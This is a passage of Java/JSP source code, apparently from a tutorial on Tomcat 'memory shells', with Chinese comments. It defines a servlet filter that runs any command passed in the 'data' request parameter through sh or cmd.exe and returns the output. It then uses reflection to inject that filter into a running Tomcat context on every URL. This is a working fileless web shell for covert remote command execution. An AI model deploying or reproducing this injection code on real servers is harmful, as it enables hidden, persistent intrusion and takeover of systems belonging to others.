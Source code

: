 ```jsp
            public void init(FilterConfig config) {
            }

            @Override
            public void destroy() {
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                if (httpServletRequest.getParameter("data") != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("data")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("data")};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    httpServletResponse.getWriter().write(output);
                    httpServletResponse.getWriter().flush();
                    return;
                }
                chain.doFilter(request, response);
            }
        };

        // 反射获取FilterDef, 设置filter名等参数, 调用addFilterDef添加FilterDef
        Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
        filterDefDeclaredConstructor.setAccessible(true);
        FilterDef filterDef1 = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef1.setFilter(filter);
        filterDef1.setFilterName(filterName);
        filterDef1.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef1);

        // 反射获取FilterMap并设置拦截路径, 调用addFilterMapBefore添加FilterMap
        Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
        filterMapDeclaredConstructor.setAccessible(true);
        FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap1.addURLPattern("/*");
        filterMap1.setFilterName(filterName);
        filterMap1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap1);

        // 反射获取ApplicationFilterConfig
        Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);

        // 向从StandardContext获取的FilterConfigs中添加恶意的FilterConfig
```